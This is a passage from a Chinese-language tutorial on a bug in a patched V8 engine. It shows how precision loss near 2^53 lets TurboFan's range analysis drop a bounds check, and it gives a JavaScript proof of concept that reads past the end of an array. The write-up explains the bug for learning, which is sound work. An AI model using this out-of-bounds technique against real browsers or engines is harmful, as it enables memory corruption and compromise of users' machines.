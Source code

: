 +------+--------------+------------------------------------------------------+
|   0  |  00000000001 | 1111111111111111111111111111111111111111111111111111‬ |
+------+--------------+------------------------------------------------------+
</code></pre>
</li>
<li>由于`x + 1 + 1 &lt;= x + 2`，因此某个`NumberAdd`结点的`Type`，也就是**其Range将会小于该结点本身的值** 。例如
<ul>
<li>
`9007199254740992` 连续两次**+1**后，由于精度丢失，导致最后一个`NumberAdd`结点的Type为`Range(9007199254740992,9007199254740992)`。</li>
- 但由于执行了patch中的优化，导致最后一个加法操作实际的结果为`9007199254740994`，大于Range的最大值。
- 因此，如果使用这个结果值来访问数组的话，可能存在越界读写的问题，因为若预期index小于length的最小范围时，checkBounds结点将会被优化，此时比**预期index** 范围更大的 **实际index** 很有可能成功越界。
### <a class="reference-link" style="background-image: url('img/anchor.gif');" name="4.%20%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>4. 漏洞利用

#### <a class="reference-link" style="background-image: url('img/anchor.gif');" name="a.%20OOB"></a>a. OOB

##### <a class="reference-link" style="background-image: url('img/anchor.gif');" name="1)%20%E6%9E%84%E9%80%A0POC"></a>1) 构造POC
<li>我们先试一下POC
<pre><code class="lang-js hljs javascript">function f(x)
`{`
    const arr = [1.1, 2.2, 3.3, 4.4, 5.5]; // length =&gt; Range(5, 5)
    let t = (x == 1 ? 9007199254740992 : 9007199254740989);
    // 此时 t =&gt; 解释/编译 Range(9007199254740989, 9007199254740992)
    t = t + 1 + 1;
    /* 此时 t =&gt; 
        解释：Range(9007199254740991, 9007199254740992)
        编译：Range(9007199254740991, 9007199254740994)
    */
    t -= 9007199254740989;
    /* 此时 t =&gt; 
        解释：Range(2, 3)
        编译：Range(2, 5)
    */
    return arr[t];
`}`

console.log(f(1));
%OptimizeFunctionOnNextCall(f);
console.log(f(1));
</code></pre>
Type后的结果如下，可以看到checkbounds的检查可以通过：
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01485d798a0cfe212f.png)
因此该checkbounds将在`SimplifiedLoweringPhase`中被优化：
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0181ce2dab56a05fbc.png)
输出的结果如下：
<blockquote>注：输出结果中的`DuplicateAdditionReducer::ReduceAddition Called/Success`，是打patch后的输出内容，在原v8中没有该输出。</blockquote>
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t014d583bf660b539cc.png)
可以看到，成功将两个+1操作优化为+2，并在最末尾处成功**越界读取**到一个数组外的元素。
</li>
<li>这里需要说一下构建poc可能存在的问题：